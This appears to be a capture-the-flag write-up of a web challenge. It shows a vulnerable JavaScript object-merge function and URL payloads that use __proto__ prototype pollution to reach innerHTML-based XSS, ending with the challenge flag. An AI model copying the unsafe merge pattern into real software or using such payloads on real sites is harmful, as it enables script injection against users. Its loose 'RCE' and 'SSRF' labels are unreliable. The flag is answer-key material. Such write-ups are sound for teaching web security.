






# Kulkan (500 points) - Pentesting



This problem is from kulkan sponsor. The challenge is to compliment Messi through customizing the compliment message with json. The json is parsed and the compliment message is displayed.

At the bottom we can see a hint: 


This hint is seems familiar to us. It is a prototype pollution attack. The json is parsed and merged with the default json. The mergeObjects function is vulnerable to prototype pollution. We can pollute the prototype of the default json and add a new property to the default json. The new property will be added to the compliment message. The prototype pollution is well explained [here](https://portswigger.net/web-security/prototype-pollution).

Along with the hint, we need to do some OWASP framework, by starting with viewing contents and it's source code. We found a javascript that will do the job of Messi's compliment.
```js
const params = new URLSearchParams(window.location.search);
document.getElementById('input_json').value = params.get('input_json') || '';

let randomObject = {};

function mergeObjects(target, source) {
    for (let key in source) {
        if (typeof source[key] === 'object' && source[key] !== null) {
            if (!target[key]) {
                target[key] = {};
            }
            mergeObjects(target[key], source[key]);
        } else {
            target[key] = source[key];
        }
    }
}

function applyUpdate() {
    const configStr = document.getElementById('input_json').value;
    let config = {};

    try {
        config = JSON.parse(configStr);
    } catch (e) {
        console.log("Invalid JSON, you can do better for Messi.");
        return;
    }

// Hey, you're doing a great job if you're here reviewing code. You've got this!
    let defaultConfig = { color: "blue", fontSize: "16px" };
    mergeObjects(defaultConfig, config);

    const complimentDiv = document.getElementById('compliment');

    if (defaultConfig.compliment) {
        complimentDiv.innerText = defaultConfig.compliment;
    }
    if (defaultConfig.color) {
        complimentDiv.style.color = defaultConfig.color;
    }
    if (defaultConfig.fontSize) {
        complimentDiv.style.fontSize = defaultConfig.fontSize;
    }
    if (randomObject.win) {
        complimentDiv.innerHTML = randomObject.win;
    }
}

applyUpdate();
```
So the web page will get `input_json` from the url and parse it as json. The json will be merged with the default json. The merged json will be used to compliment Messi and will be displayed in the `compliment` div.

First payload from @ysl to test the prototype pollution:
```
https://www.penetration-testing.com/?input_json={"__proto__":{"win":true}}
```



So the payload is working, this is road to XSS-RCE.

Now building our XSS payload :
```
https://www.penetration-testing.com/?input_json={"__proto__":{"win":""}}
```


The payload is working, now we can build our RCE payload with XSShunter:
```
https://www.penetration-testing.com/?input_json={"__proto__":{"win":""}}
```


There is nothing when just browsing the link. We need to find where we can get the flag with this RCE. With my big brain, there is an Admin bot page that accepts URL and feels like this is SSRF that reveal secrets in the server.



And we got the flag



**FLAG:** EKO{Kulk4n__Quetz4}
